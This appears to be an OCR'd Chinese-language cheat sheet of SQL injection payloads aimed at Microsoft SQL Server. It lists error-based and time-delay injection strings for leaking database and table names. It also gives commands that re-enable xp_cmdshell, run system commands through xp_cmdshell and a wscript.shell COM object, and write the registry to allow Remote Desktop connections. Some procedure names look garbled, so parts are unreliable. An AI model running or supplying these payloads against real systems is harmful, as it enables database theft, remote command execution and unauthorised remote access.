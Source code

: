 	--管理 SQL Server 2000 数据库角色的角色和成员，并管理数据库中的语句和对象权限
	db_backupoperator 
	--有备份数据库的权限
	db_denydatareader 
	--拒绝选择数据库数据的权限
	db_denydatawriter
	--拒绝更改数据库数据的权限 
**显错注入**

	#直接与数字比较
	id=1 and @@version>0--
	id=1 and user>0--
	id=1 and db_name()>0--

	#将数据转换成整数致报错,可用于爆库名，表名，数据名
	id=1 and 1=convert(int,(select name from master.dbo.sysdatabases where dbid=7))--

	#having 1=1爆数据
	id=13 having 1=1 --
	id=13 group by 表名.字段名1,字段名2 having 1=1 --

**延时注入**
	
	#延时3秒**
	IF(ascii(SUBSTRING('name',1,1))>0) waitfor delay'0:0:3'

**命令执行**
	
	#判断功能是否存在
	and select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_regread') #注册表
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_makewebtask') #备份
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'sp_addextendedproc') #恢复扩展
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_subdirs') #读取子目录
	and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE name= 'xp_dirtree') #列目录

	#恢复与删除扩展
	exec sp_addextendedproc xp_cmdshell,'xplog70.dll'
	exec sp_dropextendedproc 'xp_cmdshell'

	#恢复xp_cmdshell
	EXEC sp_configure 'show advanced options', 1;  
	RECONFIGURE WITH OVERRIDE;EXEC sp_configure 'xp_cmdshell', 1;  
	RECONFIGURE WITH OVERRIDE;  
	EXEC sp_configure 'show advanced options', 0 --

	#访问COM组件
	;declare @s int;
	;exec sp_oacreat 'wscript.shell',@s
	;exec master..spoamethod @s,'run',null,'cmd.exe/c dir c:\

	#执行命令
	EXEC xp_cmdshell 'net user';

	#写注册表
	exec master.dbo.xp_regwrite'HKEY_LOCAL_MACHINE',  
	'SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;--
